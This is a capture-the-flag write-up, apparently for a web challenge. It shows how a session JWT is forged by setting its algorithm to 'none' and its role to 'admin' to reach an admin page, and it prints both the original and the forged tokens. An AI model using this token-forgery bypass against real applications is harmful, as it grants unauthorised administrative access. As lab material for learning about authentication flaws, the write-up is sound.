 
We are greeted with this web-page

![Pasted image 20240814220923.png](../Images/Pasted%20image%20240814220923.png)


Then we log in with the credentials given to us: 

```
test : Test123!
```


We get this:

![Pasted image 20240814221116.png](../Images/Pasted%20image%20240814221116.png)


We notice that there is a JWT token added onto our session:

![Pasted image 20240814221140.png](../Images/Pasted%20image%20240814221140.png)

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzIzNjUzNjA4OTI1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6MTI5LjApIEdlY2tvLzIwMTAwMTAxIEZpcmVmb3gvMTI5LjAiLCJyb2xlIjoidXNlciIsImlhdCI6MTcyMzY1MzYwOX0.W3ZpF2VhdVttCPpJWFQ5UyoK8jBGWIiZCBVVWqMHI68
```


We visit this website:

```
https://www.gavinjl.me/edit-jwt-online-alg-none/
```



We set algorithm to none:

![Pasted image 20240814221309.png](../Images/Pasted%20image%20240814221309.png)


And we change the role to 'admin':

![Pasted image 20240814221332.png](../Images/Pasted%20image%20240814221332.png)



We get this final new token:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzIzNjUzNjA4OTI1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6MTI5LjApIEdlY2tvLzIwMTAwMTAxIEZpcmVmb3gvMTI5LjAiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MjM2NTM2MDl9.
```


We set this value as of our token


We get this page:

![Pasted image 20240814221627.png](../Images/Pasted%20image%20240814221627.png)


Hence we get  our flag.
